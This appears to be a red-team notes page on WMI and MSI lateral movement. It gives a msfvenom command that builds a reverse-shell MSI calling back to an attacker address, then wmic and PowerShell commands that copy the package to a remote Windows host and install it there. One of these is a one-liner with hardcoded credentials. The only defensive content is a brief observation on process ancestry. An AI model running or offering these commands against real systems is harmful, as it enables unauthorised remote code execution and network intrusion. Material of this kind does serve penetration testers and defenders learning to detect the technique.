





# WMI + MSI Lateral Movement

## Execution

Generating a payload in MSI \(Microsoft Installer Package\):



```csharp
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 -f msi > evil64.msi
```




I tried executing the .msi payload like so, but got a return code `1619` and quick search on google showed  nothing usefull:



```csharp
wmic /node:10.0.0.7 /user:offense\administrator product call install PackageLocation='\\10.0.0.2\c$\experiments\evil64.msi'
```




So I had to revert to a filthy way of achieving the goal:



```csharp
net use \\10.0.0.7\c$ /user:administrator@offense; copy C:\experiments\evil64.msi \\10.0.0.7\c$\PerfLogs\setup.msi ; wmic /node:10.0.0.7 /user:administrator@offense product call install PackageLocation=c:\PerfLogs\setup.msi
```





Additionally, the same could of course be achieved using powershell cmdlets:



```csharp
Invoke-WmiMethod -Path win32_product -name install -argumentlist @($true,"","c:\PerfLogs\setup.msi") -ComputerName pc-w10 -Credential (Get-Credential)
```



Get a prompt for credentials:



and enjoy the code execution:



Or if no GUI is available for credentials, a oneliner:



```csharp
$username = 'Administrator';$password = '123456';$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword; Invoke-WmiMethod -Path win32_product -name install -argumentlist @($true,"","c:\PerfLogs\setup.msi") -ComputerName pc-w10 -Credential $credential
```





## Observations

Note the process ancestry: `services > msiexec.exe > .tmp > cmd.exe`:


and that the connection is initiated by the .tmp file \(I ran another test, hence another file name\):





